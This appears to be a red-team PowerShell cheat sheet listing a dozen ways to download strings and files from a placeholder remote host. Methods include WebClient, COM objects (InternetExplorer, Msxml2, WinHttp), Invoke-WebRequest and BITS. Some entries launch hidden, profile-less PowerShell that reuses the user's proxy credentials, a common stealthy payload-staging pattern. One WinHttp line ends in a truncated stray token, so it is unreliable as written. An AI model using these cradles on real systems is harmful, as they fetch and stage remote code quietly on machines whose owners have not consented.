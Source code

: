 ### download a string - DownloadString
```
(New-Object Net.WebClient).downloadString('https://<rhost>')
```

### download a string - DownloadData
```
$str = (New-Object Net.WebClient).DownloadData('https://<rhost>'); [Text.Encoding]::UTF8.GetString($str)
```

### download a string - ComObject
```
$ie = New-Object -ComObject InternetExplorer.Application; $ie.visible=$False; $ie.navigate('https://<rhost>'); sleep 5; $response=$ie.Document.body.innerHTML; $ie.quit(); $response -replace "<pre>","" -replace "</pre>",""
```

### download a string - ComObject
```
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET','https://<rhost>',$false); $h.send(); echo $h.responseText
```

### download string using default proxy settings - Downloadstring
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.proxy=[Net.WebRequest]::GetSystemWebProxy(); $t.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials; $t.downloadstring('https://<rhost>')
```

### download string using default proxy settings - DownloadString
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials; $t.downloadString('http://<rhost>')
```


### download a file (ignore Internet-Explorer module error) - Invoke-Web-Request
```
iwr 'https://<rhost>' -OutFile <file> -UseBasicParsing
```

### download a file - Invoke-RestMethod
```
Invoke-RestMethod 'https://<rhost>' -OutFile <file>
```

### download a file - Start-BitsTransfer
```
Start-BitsTransfer 'https://<rhost>' -Destination <file>
```

### download a file - DownloadFile
```
$webClient = [Net.WebClient]::new(); $webClient.DownloadFile('https://<rhost>', '<fullPathFile>')
```

### download a file - ComObject
```
[Net.WebRequest]::DefaultWebProxy; [Net.CredentialCache]::DefaultNetworkCredentials; $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://<rhost>',$false);$h.send();ie
```


### configure TLS version
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::'Tls11,Tls12'
```

